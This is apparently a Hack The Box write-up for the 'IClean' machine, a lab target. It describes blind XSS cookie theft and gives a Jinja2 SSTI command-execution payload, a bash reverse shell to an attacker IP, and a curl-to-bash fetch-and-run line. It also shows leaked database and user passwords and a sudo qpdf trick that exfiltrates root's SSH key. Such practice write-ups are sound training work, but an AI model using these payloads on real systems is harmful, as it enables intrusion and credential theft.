# [IClean](https://app.hackthebox.com/machines/iclean)

```bash
nmap -p-  --min-rate 10000 10.10.11.12 -Pn
```



After detection of open ports, let's do greater nmap scan for these ports.


```bash
nmap -A -sC -sV -p22,80 10.10.11.12 -Pn
```




While I open application, it redirects into `capiclean.htb` domain, that's why I need to add this domain into `/etc/hosts` file for resolving 


I found `/quote` endpoint where, I can submit user payloads to `service` body parameter cannot be seen from front page.



Let's add `XSS` payloads into here to be triggered.
```bash

```



It means `service` parameter is not filtered from untrusted user input.

Let's add `blind XSS` payload to steal user's cookies.

```bash

```



**Note:** Payload should be `URL` encoded.


We can see cookie in our http server's logs.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```




Now, I can get this cookie and change on my browser's `Inspector` section. 

Then, I can browse `/dashboard` endpoint which opens `Admin Dashboard` as below.




Now, I have `/QRGenerator` endpoint, let's fuzz here with `SSTI` (Server-Side Template Injection) payloads.


**Note:** It should be also `URL` encoded.

I get payload from [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------).


```bash
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```





Let's change payload section with `reverse shell` payload, which I will open http.server and put reverse shell script into here to be executed by target machine.


First, I need to write below reverse shell script.
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1"
```


Then, I need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```


```bash
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.10.14.12:8080/dr4ks | bash")|attr("read")()}}
```




Hola, I got reverse shell from port `1337`.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```




I read `app.py` file and finds credentials of `mysql`.




iclean: pxCsmnGLckUb


Let's access to `mysql` database.
```bash
mysql -h localhost -u iclean -p
```




I copy password of `consuela` and paste into [Crackstation](https://crackstation.net)




consuela: simple and clean

These credentials works for me.



user.txt




For `privilege escalation`, I just run `sudo -l` to check privileges of this user.




I find [this](https://qpdf.readthedocs.io/en/stable/cli.html?source=post_page-----cfc46f351353--------------------------------) and prepare such an payload.

```bash
sudo /usr/bin/qpdf --empty /tmp/rsa.txt --qdf --add-attachment /root/.ssh/id_rsa --
```




While reading `/tmp/rsa.txt`, I can see `id_rsa` of root user.




Let's copy this and use.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.12
```




root.txt

